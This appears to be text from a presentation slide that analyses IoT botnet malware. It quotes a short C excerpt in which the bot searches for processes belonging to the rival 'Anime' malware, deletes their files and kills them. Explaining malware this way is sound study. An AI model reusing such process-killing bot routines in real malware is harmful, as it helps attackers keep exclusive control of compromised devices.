

#
and this function searches and destroys the Anime malware—a “competing” piece of software, which is also used to compromise IoT devices:

searching for .anime process
       table_unlock_val(TABLE_KILLER_ANIME);
                // If path contains ".anime" kill.
                if (util_stristr(realpath, rp_len - 1, table_retrieve_val(TABLE_KILLER_ANIME, NULL)) != -1)
                {
                    unlink(realpath);
                    kill(pid, 9);
                }
 table_lock_val(TABLE_KILLER_ANIME);